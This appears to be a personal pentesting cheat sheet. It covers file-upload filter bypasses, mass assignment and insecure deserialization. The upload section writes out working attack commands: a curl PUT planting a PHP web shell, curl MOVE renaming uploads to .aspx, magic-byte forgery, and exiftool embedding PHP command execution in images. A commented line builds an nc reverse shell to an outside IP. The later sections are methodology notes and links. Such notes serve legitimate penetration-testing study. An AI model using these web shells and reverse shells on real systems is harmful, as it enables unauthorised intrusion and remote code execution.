 		- Rename after uploading (ex. upload as .html, then move to .aspx):
			    - Upload file with curl:  `curl http://10.10.10.15/ --upload-file shell.txt`
				- or:   `curl -X PUT -d '<?php system($_GET["c"]);?>' http://192.168.2.99/shell.php`
			- Move/Rename file:  `curl -X MOVE --header "Destination:http://10.10.10.15/shell.aspx" http://10.10.10.15/shell.txt`
				- ex.  `curl -X MOVE --header "Destination:http://10.10.10.15/nc.exe" http://10.10.10.15/nc.txt`
		-Bypass MIME type validation:
			Burpsuite: modify POST request Content-Type header
			Edit magic bytes:  echo '89 50 4E 47 0D 0A 1A 0A' | xxd -p -r > mime.php.png
				Or:  add before shellcode: `GIF89a;`
		-Image Hidden PHP Code (bypasses getimagesize() validation):
			w/ Gimp--put code in properties/comments 
			exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
	ex. PHP code in image:
		cp original.png ./shell.php.png
		echo '<?php' >> ./shell.php.png
		echo 'passthru("whoami");' >> ./shell.php.png
		#echo 'passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.18 4444 >/tmp/f");' >> ./shell.php.png
			Or: echo 'system($_REQUEST["cmd"]);' >> ./shell2.php.png
		echo '?>' >> ./shell.php.png
		visit example.com/uploads/shell.php.png or example.com/uploads/shell.php.png?cmd=id

## Mass Assignment/Parameter Binding (Sensitive Fields): 

    Examine code for account creation, etc. & check API fields - any extra parameters we can set in the url?
    If user POST request is sent to the API directly
    ex. setting isAdmin for account creation url parameter
    Check: signup forms, profile update forms, etc.
    https://github.com/blabla1337/skf-labs/blob/8e89889e8c036fba1c26f028ac07741fa5a8559c/md/Java/kbid-147-Parameter-Binding.md
    https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Mass_Assignment_Cheat_Sheet.md
    Burpsuite Param Miner extension for guessing json parameters

## Deserialization:

    *Check by Language - Search for serialize modules used; Google for known vulnerabilities!
    https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html
    https://book.hacktricks.xyz/pentesting-web/deserialization
    https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Insecure%20Deserialization
    https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet
    https://klezvirus.github.io/Advanced-Web-Hacking/Serialisation/
    Look for untrusted data that's being deserialized; look for something being serialized or deserialized that you can control the type of, or its data
    Method 1: transmitted object that you can edit
    Method 2: stored object that you can edit
    Look for base64-encoded objects! - serialized objects in transit that can be modified - check known signatures         
    Process: study the source code to identify a class that contains a magic method that is invoked during deserialization. Assess the code that this magic method executes to see if it directly does anything dangerous with user-controllable attributes
        Study any methods the kick-off gadget invokes--anything dangerous w/ data I control? - keep following
        After finding a vulnerability in the code, look for functions you can take advantage of (download, write, etc.) (or use a known gadget)
    **Trial & Error w/ Payloads
    ***Can lead to RCE, auth bypass (type juggling), SQL injection, etc.
    Troubleshooting: Test different payloads (sleep, ping, nc, etc.), different encodings/escapes, etc.
    3 Conditions:
        The serialized object is provided by or can be modified by a user.
        An application attempts to deserialize and use the object without validation.